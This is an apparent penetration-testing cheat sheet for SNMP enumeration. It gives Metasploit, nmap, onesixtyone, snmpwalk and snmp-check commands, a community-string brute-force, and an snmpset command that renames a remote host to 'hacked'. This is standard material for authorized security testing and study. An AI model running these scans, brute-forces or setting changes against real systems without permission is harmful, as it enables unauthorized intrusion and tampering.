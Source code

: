The SNMP service listens by default on `161/udp`. 
SNMP versions 1,2,1.2C has no traffic encryption.

There are three community strings for SNMPv1-v2c-speaking devices: 
- SNMP Read-only community string - enables a remote device to retrieve "read-only" information from a device. Intermapper uses this information from devices on its maps.
- SNMP Read-Write community string - used in requests for information from a device and to modify settings on that device. Intermapper does not use the read-write community string, since it never attempts to modify any settings on its devices.
- SNMP Trap community string - included when a device sends SNMP Traps to Intermapper. Intermapper accepts any SNMP Trap community string.

## Reading MIB database 

### SNMP Network Discovery

```bash
msf> use auxiliary/scanner/snmp/snmp_enum 
msf auxiliary(snmp_enum) > set RHOSTS 10.11.1.1-254 
msf auxiliary(snmp_enum) > set THREADS 10 
msf auxiliary(snmp_enum) > run
```

### List of SNMP Metasploit Scripts

```bash
msf> use auxiliary/scanner/snmp/snmp_enum 
msf> use auxiliary/scanner/snmp/snmp_enumshares 
msf> use auxiliary/scanner/snmp/snmp_enumusers 
msf> use auxiliary/scanner/snmp/snmp_login
```

### nmap

```bash
nmap -p161 -sU -sC --script snmp* jd.acme.local
```

### Bruteforcing SNMP

```bash
nmap -sU 10.11.1.22 -p161 --script=snmp-brute -Pn --script-args snmp-brute.communitiesdb=snmp-default.txt
```

### Changing the hostname of a remote server 

```bash
snmpset -v 2c -c public 10.11.1.22 .1.3.6.1.2.1.1.5.0 s hacked
```

### Querying MIB values

```bash
snmpwalk -c public -v1 10.11.1.219
```

```bash
snmpenum
```

```bash
onesixtyone -c ../wordlist/snmp-community.txt -i ./snmp-hosts.txt
```

```bash
snmp-check 10.11.1.13 --timeout 2
```
